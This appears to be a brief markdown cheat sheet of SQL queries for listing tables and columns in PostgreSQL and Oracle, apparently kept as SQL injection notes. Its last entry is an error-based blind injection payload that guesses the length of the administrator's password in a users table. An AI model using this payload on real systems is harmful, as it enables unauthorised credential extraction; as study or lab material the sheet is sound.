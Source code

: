 # PostgreSQL
Get table names 
```SQL
select tablename from pg_tables
```

Get columns of specific table
```SQL
select column_name from information_schema.columns where table_name = 'TABLE NAME HERE'
```

# MSSQL

# MySQL

# Oracle
Get table names 
```SQL
select table_name from all_tables
select table_name from all_tables where table_name like '%USERS%'
```

Get columns of specific table
```SQL
select column_name from all_tab_columns where table_name = 'TABLE NAME HERE' --
```

Finding password length
```SQL
'||(select case when length(password)>{INCREASE NUMBER STARTING FROM 1} then to_char(1/0) else '' end from users where username = 'administrator')||'
```